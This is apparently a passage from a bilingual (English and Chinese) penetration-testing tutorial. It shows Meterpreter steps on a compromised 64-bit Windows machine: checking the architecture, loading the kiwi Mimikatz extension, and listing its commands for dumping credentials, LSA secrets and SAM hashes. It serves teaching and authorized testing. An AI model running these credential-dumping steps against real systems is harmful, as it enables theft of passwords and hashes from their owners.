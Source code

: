 ```
meterpreter > sysinfo
Meterpreter : x64/windows
```

Our Meterpreter payload is currently now a 64-bit payload. We have a 64-bit session.

So now that we've done that, we can load kiwi, which is just mimikatz but a module that was made for Meterpreter.

It's going to load the kiwi extension.

```
meterpreter > load kiwi
```

[MIMIKATZ](https://www.offensive-security.com/metasploit-unleashed/mimikatz/)

Mimikatz supports 32bit and 64bit Windows architectures. After upgrading our privileges to SYSTEM, we need to verify, with the sysinfo command, what the architecture of the compromised machine is. This will be relevant on 64bit machines as we may have compromised a 32bit process on a 64bit architecture. If this is the case, meterpreter will attempt to load a 32bit version of Mimikatz into memory, which will cause most features to be non-functional. This can be avoided by looking at the list of running processes and migrating to a 64bit process before loading Mimikatz.

Mimikatz 支持 32 位和 64 位 Windows 架构。将权限升级到 SYSTEM 后，我们需要使用sysinfo命令验证受感染机器的架构。这将与 64 位机器相关，因为我们可能已经在 64 位架构上破坏了 32 位进程。如果是这种情况，meterpreter 将尝试将 32 位版本的 Mimikatz 加载到内存中，这将导致大多数功能无法正常运行。这可以通过查看正在运行的进程列表并在加载 Mimikatz 之前迁移到 64 位进程来避免。

Once you've loaded the kiwi extension it'll give you a list of commands that you can run based on the type of credentials that you want to dump. 

```
meterpreter > help

Kiwi Commands
==============

Command             Description
-------             -----------
creds_all           Retrieve all credentials (parsed)
lsa_dump_sam        Dump LSA SAM (unparsed)
lsa_dump_secrets    Dump LSA secrets (unparsed)
```

```
Kiwi命令
==============

命令                说明
------              ----------
creds_all           检索所有凭据（已解析）
lsa_dump_sam        转储 LSA SAM（未解析）
lsa_dump_secrets    转储 LSA 机密（未解析）
```

We can first and foremost run the `creds_all` (credentials all command) to retrieve all credentials. 
